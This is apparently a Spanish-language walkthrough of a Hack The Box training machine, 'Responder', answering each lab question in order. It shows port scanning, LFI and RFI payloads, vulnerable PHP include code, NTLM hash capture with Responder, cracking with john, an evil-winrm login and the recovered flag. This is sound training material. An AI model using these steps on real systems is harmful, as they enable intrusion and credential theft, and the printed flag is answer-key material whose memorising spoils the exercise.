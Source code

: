 ```yaml
---
title: Máquina Responder
published: true
---
```


Jorge Marco Arráez

He estado unos dias intentando la máquina Timelapse, pero he llegado a un punto en el que me he estancado. Tengo que aprender como usar las debilidades de winrm para poder continuar. Mientras tanto, continuo con el starting point que ya estoy empezando la fase 2.

## [](#header-3) 1)   How many TCP ports are open on the machine? 

Con el parámero -sS le digo que haga un escaneo TCP/SYN porque al ser una máquina windows agiliza el proceso, con -n le indico que no quiero que haga resolución por dns para que vaya más rápido, con min-rate especifico la minima cantidad de paquetes que quiero que emita por segundo. -p- es para que escanee todos los puertos y -Pn para que detecte la máquina si o sí.
```
nmap -sS -n --min-rate 5000 -p- -Pn $IP
```

3

## [](#header-3) 2)    When visiting the web service using the IP address, what is the domain that we are being redirected to? 

He tenido que editar el archivo /etc/hosts porque se estaba aplicando virtual hosting, con añadir "$IP  unika.htb" ya he podido acceder a la página

unika.htb


## [](#header-3) 3)   Which scripting language is being used on the server to generate webpages? 

php

## [](#header-3) 4)   What is the name of the URL parameter which is used to load different language versions of the webpage? 

page

## [](#header-3) 5)   Which of the following values for the page parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 

An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even Cross-site Scripting (XSS). Typically, LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.
The following is an example of PHP code that is vulnerable to LFI.


```
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.

Fuente: https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/

```
../../../../../../../../windows/system32/drivers/etc/hosts
```

## [](#header-3) 6)   Which of the following values for the page parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 

Según wikipedia, una RFI es una vulnerabilidad existente solamente en páginas dinámicas en PHP que permite el enlace de archivos remotos situados en otros servidores a causa de una mala programación de la página que contiene funciones de inclusión de archivos.

Por lo que incluyendo la línea de abajo en el campo "page" del url, podríamos conseguir que el servidor incluyese un fichero de nuestra máquina, por ejemplo, un archivo para hacer una reverse shell.

```
//10.10.14.6/somefile
```

Más información aquí: https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/

## [](#header-3) 7)    What does NTLM stand for? 

new technology lan manager

## [](#header-3) 8)   Which flag do we use in the Responder utility to specify the network interface? 

Para que el programa pudiese funcionar, he tenido que matar algunos procesos que estaban ocurriendo en el puerto 445 y 139. Con:

```
sudo kill -9 `sudo lsof -t -i:139`
sudo kill -9 `sudo lsof -t -i:445`
responder -I tun0 -w -d 
```

-I

## [](#header-3) 9)  There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?. 

john the ripper

## [](#header-3) 10)  What is the password for the administrator user? 
```
john -w=/opt/wordlist/rockyout.txt hash.txt
```
badminton

## [](#header-3) 11)  We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on? 

5985

## [](#header-3) 12)  Submit root flag 

```
evil-winrm -i 10.129.93.222 -u administrator -p badminton
ls
cd C:\Users
ls
cd mike
ls
cd Desktop
ls
text flag.txt
```

```
ea81b7afddd03efaa0945333ed147fac
```
